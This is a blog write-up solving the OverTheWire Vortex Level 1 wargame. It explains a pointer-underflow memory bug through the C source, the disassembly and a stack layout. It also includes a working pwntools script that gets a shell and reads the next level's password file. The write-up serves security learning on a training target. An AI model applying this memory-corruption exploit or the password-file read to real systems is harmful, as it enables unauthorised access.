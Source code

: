 ```yaml
---
layout: post
title:  "Vortex Level 1"
date:   2015-10-21 02:20
categories: vortex wargame web overthewire
author: Natri
---
```

This is a solution guide to the Vortex Level 01 at <a href="http://overthewire.org/wargames/vortex/vortex1.html">overthewire</a>. This write-up was created on 21 October 2015.
<!--break-->

1. Once logged in, navigate to /vortex/
2. Execute program and see what a standard output gives
3. Examine the source code given
4. Write the exploit

<h2>Standard Output</h2>
{% highlight text %}
./vortex1    
aaaaaaaaaa
[ 0 0 0 0 1 0 0 0 0 e0 fc f7 0 d0 ff f7 cb 6b fe f7 0 c0 ff f7 0 10 0 0 1 0 0 0 8c 6b fe f7 0 d0 ff f7 0 0 0 0 d8 d5 ff ff db 70 fe f7 f0 da ff f7 b8 e5 fc f7 1 0 0 0 1 0 0 0 0 0 0 0 ac 55 ff f7 0 0 0 0 0 0 0 0 5c d5 ff f7 a8 d5 ff ff c8 d5 ff ff 0 0 0 0 ac 55 ff f7 5c d5 ff f7 c8 d5 ff ff ac c4 fd f7 dc c2 fd f7 cd 4d fe f7 fd 5f e3 f7 ff 82 4 8 0 0 0 0 3c c3 fd f7 0 0 0 0 0 c0 fd f7 40 0 0 0 2 0 0 0 7d 82 4 8 24 dc ff f7 bc 26 e2 f7 0 d0 ff f7 b8 6c e2 f7 1 0 0 0 b8 e2 fc f7 24 55 fe f7 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 b8 e2 fc f7 3 0 0 0 f0 d5 ff ff 71 ea b1 7 2e 4e 3d f6 c8 6e e2 f7 f8 fb e2 f7 56 d ff f7 0 d0 ff f7 e2 f4 fd f7 5c d5 ff f7 f0 da ff f7 0 0 0 0 61 61 61 61 61 61 61 61 61 61 0 0 1 0 0 0 d3 8 0 0 e8 e2 fc f7 0 e0 fc f7 d4 82 4 8 38 4 e3 f7 5c 82 4 8 1 0 0 0 0 0 2 0 b6 2e ff f7 2 0 0 0 0 d0 ff f7 34 d7 ff ff f0 da ff f7 f0 d6 ff ff aa 57 fe f7 a0 d6 ff ff 5c 82 4 8 a8 d6 ff ff 94 da ff f7 0 0 0 0 e8 e2 fc f7 1 0 0 0 0 0 0 0 1 0 0 0 38 d9 ff f7 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 3 0 0 0 9 0 0 0 3f 0 c0 4 0 0 0 0 34 d7 ff ff a8 d6 ff ff a0 d6 ff ff d4 82 4 8 38 d9 ff f7 0 0 0 0 c2 0 0 0 b6 75 eb f7 ff ff ff ff ce d6 ff ff f8 fb e2 f7 53 5f e5 f7 0 0 0 0 0 0 ca 0 1 0 0 0 a9 83 4 8 bf d8 ff ff 2f 0 0 0 0 a0 4 8 22 87 4 8 1 0 0 0 94 d7 ff ff 9c d7 ff ff d 61 e5 f7 c4 a3 fc f7 0 d0 ff f7 db 86 4 8  ]
{% endhighlight %}
So we can see that it does input our 'aaaa' in the middle of the buffer as expected by the source code.

<h2>Examine Source Code</h2>
The end state is that we want the following code to run and in order to do that we need to make sure the unsigned integer value at ptr is 0xca000000 when AND with 0xff000000
{% highlight c %}
define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
{% endhighlight %}

Looking at how the variables are declared:

1. <strong>buf</strong> is an array of char
2. <strong>ptr</strong> is a pointer to location of buf + half the size of buf; so esentially it is pointing to the 256th element in buf at the time of declaration [See indexing of pointers](http://boredzo.org/pointers/#indexing). Any time we call ptr we are getting an address value


{% highlight c %}
unsigned char buf[512];
unsigned char *ptr = buf + (sizeof(buf)/2);
unsigned int x;
{% endhighlight %}

What if we didn't have the source code, how would we find this vulnerability? Look at the disassembly of the code (see bottom section on 'Determining the stack')

The vulnerability in this program is in the loop section of code.  There are three types of characters that can make an action happen:

* <strong>A New Line</strong>
   * This case is triggered when we press return
   * Will print out what is in <strong>buf</strong>
* <strong>Backslash '\\'</strong>
   * Decriments <strong>ptr</strong>
   * This is good because <strong>ptr</strong> is a pointer and by decrimenting it the address decriments
   * <strong>KEY: </strong>It is this code that is going to allow us to do a buffer overflow at the bottom of the stack
* <strong>Anything Else</strong>
   * Executes the <strong>e()</strong> function
   * Checks to see if <strong>ptr</strong> has gone pass <strong>buf</strong> array size; to prevent buffer overflow at the top of the stack
   * Writes the value of current char into the address <strong>ptr</strong> is currently at; this is how we are going to get <strong>0xca</strong> into the stack

{% highlight c linenos %}
while((x = getchar()) != EOF) {
   switch(x) {
      case '\n': print(buf, sizeof(buf)); continue; break;
      case '\\': ptr--; break;
      default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
   }
}
{% endhighlight %}

<h2>Write the expliot</h2>
We have all the tools we need to take advantage of the buffer overflow at the bottom of the stack.

1. Determine where to write
2. Take <strong>ptr</strong> to that point
3. Write the value <strong>0xca</strong>
3. Get the function <strong>e()</strong> to execute
4. Grab the flag

{% highlight python linenos %}
from pwn import *
import time

HOST = 'votex.labs.overthewire.org'
USERNAME = 'vortex1'
PASS = ''

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex1' % location
password_file = '/etc/vortex_pass/vortex2'
r = s.run(file_name)

#need to overwrite the MSB of the ptr variable; through stack analysis I found this
buff_size = 512
ptr_loc = buff_size / 2
getchar_size = 4

#location of where we want to write 0xca so we can pass the if statement and setresuid
where_to_write = ptr_loc + getchar_size + 1

r.send('\\' * where_to_write) #move ptr to the place we want to write
r.send('\xca') #write the value we want
r.send('\\') #send the pointer back one
r.send('\xff') #this value doesn't matter just want to make sure the case that initiates function e() gets triggered

#get rid of any junk from the buffer
r.clean()

#give time for hack to work
time.sleep(1)

r.sendline('cat %s' % password_file) #read the password file
log.success('Password: %s' % r.recv().strip()) #log the password on screen

{% endhighlight %}
<h2>Determining the Stack</h2>
To find out vulnerabilities to smash the stack we need to see how the stack is made and utilized.  Looking at the disassembly of the main procedure below lets build the stack:

1. 080485c8: makes the stack 0x220 in size
2. 080485ce and 080485d4: creates the [stack canary](https://xorl.wordpress.com/2010/10/14/linux-glibc-stack-canary-values/) to ensure the top of the stack doesn't get corrupted; so since it puts an address at esp+0x21c that is the 0x4 size needed for an address of 32-bit address
3. Set the <strong>ptr</strong> address:
   1. 080485dd: grabs the memory location of the buffer array
   2. 080485e1: takes memory address and adds 0x100 (this is 256 decimal which is half the buffer size; matches source code)
   3. 080485e6: Puts that value onto the stack
4. 0804868e and 08048693: the <strong>getchar</strong> c function is called and value is stored in stack at memory location esp+0x18
4. Now our stack looks like this


| Variable | Position on the stack (esp + x) | stack size | notes |
| ptr | 0x14 | 4 | initial value should be [buf+0x100] |
| getchar value | 0x18 | 0x4 |
| buf variable | 0x1c | 0x200 |
| canary | 0x21c | 4 |

So now we know what the stack looks like so we can manipulate it.  So we need to set the value in <strong>ptr</strong> and can do so by manipulating <strong>ptr</strong> until we get to where we can modify the MSB of <strong>ptr</strong>.  So <strong>ptr</strong> starts at 0x11c (0x1c + 0x100) and we want to get to 0x17 (MSB of <strong>ptr</strong> since words/addresses are read in reverse order) therefore we want to go back 0x105 (261).

{% highlight text linenos %}
main:
080485c0         push       ebp                                                 ; XREF=_start+23
080485c1         mov        ebp, esp
080485c3         push       esi
080485c4         push       ebx
080485c5         and        esp, 0xfffffff0
080485c8         sub        esp, 0x220
080485ce         mov        eax, dword [gs:0x14]
080485d4         mov        dword [ss:esp+0x21c], eax
080485db         xor        eax, eax
080485dd         lea        eax, dword [ss:esp+0x1c]
080485e1         add        eax, 0x100
080485e6         mov        dword [ss:esp+0x14], eax
080485ea         jmp        0x804868e

080485ef         mov        eax, dword [ss:esp+0x18]                            ; XREF=main+220
080485f3         cmp        eax, 0xa
080485f6         je         0x80485ff

080485f8         cmp        eax, 0x5c
080485fb         je         0x8048615

080485fd         jmp        0x804861c

080485ff         mov        dword [ss:esp+0x4], 0x200                           ; argument #2 for method print, XREF=main+54
08048607         lea        eax, dword [ss:esp+0x1c]
0804860b         mov        dword [ss:esp], eax                                 ; argument #1 for method print
0804860e         call       print
08048613         jmp        0x804868e

08048615         sub        dword [ss:esp+0x14], 0x1                            ; ptr back one, XREF=main+59
0804861a         jmp        0x804868e

0804861c         mov        eax, dword [ss:esp+0x14]                            ; XREF=main+61
08048620         and        eax, 0xff000000
08048625         cmp        eax, 0xca000000
0804862a         jne        0x804866b

0804862c         call       j_geteuid
08048631         mov        esi, eax
08048633         call       j_geteuid
08048638         mov        ebx, eax
0804863a         call       j_geteuid
0804863f         mov        dword [ss:esp+0x8], esi
08048643         mov        dword [ss:esp+0x4], ebx
08048647         mov        dword [ss:esp], eax
0804864a         call       j_setresuid
0804864f         mov        dword [ss:esp+0x8], 0x0
08048657         mov        dword [ss:esp+0x4], 0x804876a                       ; argument "arg0" for method j_execlp
0804865f         mov        dword [ss:esp], 0x804876d                           ; "/bin/sh", argument "file" for method j_execlp
08048666         call       j_execlp

0804866b         lea        eax, dword [ss:esp+0x1c]                            ; XREF=main+106
0804866f         add        eax, 0x200
08048674         cmp        dword [ss:esp+0x14], eax
08048678         jbe        0x804867c

0804867a         jmp        0x804868d

0804867c         mov        eax, dword [ss:esp+0x14]                            ; XREF=main+184
08048680         lea        edx, dword [ds:eax+0x1]
08048683         mov        dword [ss:esp+0x14], edx
08048687         mov        edx, dword [ss:esp+0x18]
0804868b         mov        byte [ds:eax], dl

0804868d         nop                                                            ; XREF=main+186

0804868e         call       j_getchar                                           ; XREF=main+42, main+83, main+90
08048693         mov        dword [ss:esp+0x18], eax
08048697         cmp        dword [ss:esp+0x18], 0xffffffff
0804869c         jne        0x80485ef

080486a2         mov        dword [ss:esp], 0x8048775                           ; "All done", argument "s" for method j_puts
080486a9         call       j_puts
080486ae         mov        eax, 0x0
080486b3         mov        ecx, dword [ss:esp+0x21c]
080486ba         xor        ecx, dword [gs:0x14]
080486c1         je         0x80486c8

080486c3         call       j___stack_chk_fail

080486c8         lea        esp, dword [ss:ebp+var_8]                           ; XREF=main+257
080486cb         pop        ebx
080486cc         pop        esi
080486cd         pop        ebp
080486ce         ret        
           ; endp
080486cf         nop        
{% endhighlight %}
